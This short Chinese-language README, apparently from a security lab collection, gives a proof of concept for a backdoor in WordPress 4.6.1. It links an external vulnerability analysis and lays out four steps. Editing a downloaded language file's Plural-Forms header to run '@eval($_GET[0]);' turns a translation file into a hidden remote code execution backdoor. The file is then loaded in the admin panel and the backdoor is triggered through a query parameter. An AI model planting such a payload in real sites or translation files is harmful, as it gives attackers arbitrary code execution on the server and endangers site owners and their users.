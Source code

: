 ### gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试


